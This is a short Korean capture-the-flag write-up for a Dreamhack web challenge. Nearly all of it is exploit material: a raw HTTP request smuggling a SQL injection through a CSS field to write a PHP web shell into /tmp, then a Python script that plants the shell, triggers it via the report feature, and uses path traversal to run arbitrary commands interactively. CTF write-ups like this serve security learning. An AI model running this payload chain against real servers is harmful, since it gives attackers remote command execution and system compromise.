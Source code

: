 ```http
POST /?path=write HTTP/1.1
Host: host1.dreamhack.games:9111
Content-Length: 220
Content-Type: application/x-www-form-urlencoded
Connection: close

memoTitle=asdf&memoColor=aqua}.content{background:%20url('/check.php?id=99999%20union%20select%20concat(char(60),"?php%20echo%20system($_GET[\'cmd\']);%20?",char(62))%20into%20outfile%20"/tmp/cmd1.php"')&memoContent=adsf
```
그래서 나는 위와 같이 웹쉘을 `/tmp/cmd1.php` 경로에 생성하는 `SQL Injection` 페이로드를 삽입하고, 신고 기능을 통해 웹쉘을 업로드 했다.

```python
import requests
import string 
import random
import re

CHALLURL = "http://host2.dreamhack.games:16301"
LENGTH = 6

string_pool = string.digits
filename = ""

for i in range(LENGTH):
    filename += random.choice(string_pool) 

FILANAME = filename + '.php'
print(f'[+] FILANAME : {FILANAME}')

MEMODATA = {
    'memoTitle':'asdf',
    'memoColor':'aqua}.content{background: url(\'/check.php?id=9999999 union select concat(char(60),"?php echo system($_GET[\\\'cmd\\\']); ?",char(62)) into outfile "/tmp/' + FILANAME + '"\')',
    'memoContent':'asdf'
}
requests.post(CHALLURL + '/?path=write')
print(f'[+] MEMODATA : {MEMODATA}')

requests.post(CHALLURL + '/?path=write', data=MEMODATA)
POST_COUNT = re.findall('\<th scope\=\"row\"\>[0-9]*\<\/th\>', requests.get(CHALLURL + '/?path=list').text)
REPORT_NUM = POST_COUNT[-1].split('<th scope="row">')[1].split('</th>')[0]

requests.get(CHALLURL + f'/submit.php?id={REPORT_NUM}')
print("\n[+] Enable webshell!!")

while(1):
    payload = input("[+] Enter the command : ")
    RESULT = requests.get(CHALLURL + f'/?path=../../../../../../tmp/{filename}&cmd={payload}').text.split('<div class="body">')[1].split('</div>')[0].strip()
    print(RESULT)
```
위와 같이 익스플로잇 코드를 작성했다.
